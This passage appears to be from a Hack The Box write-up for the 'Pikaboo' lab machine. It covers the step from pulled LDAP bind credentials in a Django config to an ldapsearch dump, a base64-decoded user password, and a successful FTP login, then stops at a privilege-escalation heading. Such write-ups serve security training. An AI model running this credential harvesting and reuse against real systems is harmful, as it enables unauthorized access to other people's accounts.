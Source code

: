 ```bash
        "NAME": "ldap:///",                                                                                                                                           
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",                                                                                                             
        "PASSWORD": "J~42%W?PFHl]g",                                                                                                                                  
    },                                                                                                                                                                
    "default": {                                                                                                                                                      
        "ENGINE": "django.db.backends.sqlite3",                                                                                                                       
        "NAME": "/opt/pokeapi/db.sqlite3",                                                                                                                            
    }                                                                                                                                                                 
}  
```
we can see LDAP creds and we know the ldap is running so let's try to enumerate it with creds we found.
```bash
www-data@pikaboo:/opt/pokeapi$ ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b 'dc=pikaboo,dc=htb' -LLL -h 127.0.0.1 -p 389 -s sub "(objectClass=*)"
<--SNIP-->
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
<--SNIP-->
```
Looking at the LDAP dump we can see the creds for the user pwnmeow.
so let's base64 decode that creds.
```bash
kali@kali:~/HackTheBox/Pikaboo$ echo "X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==" | base64 -d
_G0tT4_C4tcH_'3m_4lL!_
```
We have the password for the user pwnmeow but the catch over here is that we cannot su into pwnmeow with that creds neither you can use it to SSH.
So from beginning we know that FTP also has the user pwnmeow from the logs that we saw from local file inclusion so let's try this cred there.
```bash
kali@kali:~/HackTheBox/Pikaboo$ ftp pikaboo.htb 
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
And boom it worked so let's enumerate futher.
# PrivESC TO Root